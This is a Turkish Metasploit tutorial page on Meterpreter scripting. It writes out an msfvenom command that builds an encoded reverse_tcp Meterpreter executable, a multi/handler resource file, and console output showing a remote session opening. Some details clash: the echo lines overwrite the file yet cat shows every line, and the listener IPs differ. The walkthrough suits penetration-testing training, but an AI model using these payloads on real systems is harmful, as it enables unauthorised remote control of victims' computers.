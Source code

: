 ```yaml
---
draft: false
title:  MSF Meterpreter Script Yazma
linkTitle: MSF Meterpreter Script Yazma
translationKey: msf-meterpreter-script-writing
weight: 370
date: 2017-06-14T13:47:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description:  MSF Meterpreter Script Yazma ile ilgili detaylı bilgileri bu yazıda bulabilirsiniz.
url:  /tr/msf-meterpreter-script-yazma/ 
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## Script Yazma

Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim.
  
* Tüm Windows sürümleri aynı değildir.

* Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar.

* Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler.

* Script yazarken Windows sürümüne özel davranmanız gerekebilir.

Yukarıda belirtilen kuralları göz önünde bulundurarak, hedefe özel script yazmak gerekmektedir. Bu durumda yazacağımız script doğru çalışabilir.

Şimdi, aşağıdaki komut ile çalıştırılabilir bir .exe dosyası oluşturalım. Bu program, hedef sistemde çalışacak ve yerel bilgisayarımıza reverse bağlantı açacaktır.

```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```

Gerekli .exe dosyamız oluşturuldu. Bu dosya hedef windows işletim sistemi içinde çalışacak ve yerel bilgisayara iletişim sağlayacaktır. O zaman bizim yerel bilgisayarda dinleyici oluşturmamız gerekmektedir. Dinleyicimizi oluşturalım.

```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler > meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp > meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 > meterpreter.rc
root@kali:~# echo set ExitOnSession false > meterpreter.rc
root@kali:~# echo exploit -j -z > meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```

Dikkat ederseniz komutlarla, multi handler modülünü dinleyici olarak ayarladık. Payload modülü olarak reverse_tcp modülü kulandık. Yerel IP adresi olarak 192.168.1.184 ayarladık.

Yeni yazdığımız scriptleri `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edersek, kolayca kullanabiliriz.

Şimdi yapmamız gereken, `msfconsole` programını yeni oluşturduğumuz `meterpreter.rc` dosyasını kaynak göstererek başlatmak.

```bash
root@kali:~# msfconsole -r meterpreter.rc

       [ metasploit v4.8.2-2014021901 [core:4.8 api:1.0] ]
+ -- --[ 1265 exploits - 695 auxiliary - 202 post ]
+ -- --[ 330 payloads - 32 encoders - 8 nops      ]

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST => 192.168.1.184
resource> set ExitOnSession false
ExitOnSession => false
resource> exploit -j -z
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```

Yukarıda gördüğünüz gibi Metasploit Framework dinleme yaparak başlamıştır. Artık, oluşturduğumuz .exe dosyasını Windows içerisinde çalıştırdığımızda, oturum aktif hale gelecektir.

```bash
> Sending stage (718336 bytes)
> Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.104:1043)

msf exploit(handler) > sessions -i 1
> Starting interaction with 1...

meterpreter >
```
